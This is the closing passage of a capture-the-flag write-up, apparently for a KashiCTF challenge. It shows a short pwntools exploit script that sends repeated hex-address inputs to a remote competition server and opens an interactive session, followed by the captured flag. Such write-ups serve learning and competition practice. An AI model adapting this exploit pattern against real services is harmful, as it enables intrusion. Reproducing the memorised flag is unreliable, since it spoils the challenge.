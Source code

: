
- Exploit script:
```python=
from pwn import *

p = remote('kashictf.iitbhucybersec.in', 32676)

payloads = [b'40125e'] * 13 + [b'4011BA']
for payload in payloads:
    p.sendlineafter(b': ', payload)

p.interactive()
```
- Flag: `KashiCTF{m4r10_15_fu_w17H_C_Cmwq3UK0}`

## Final thought

Thank you for reading till the end, if you have any questions please don't ask us :skull_and_crossbones: 

Happy hacking and happy hunting everyone.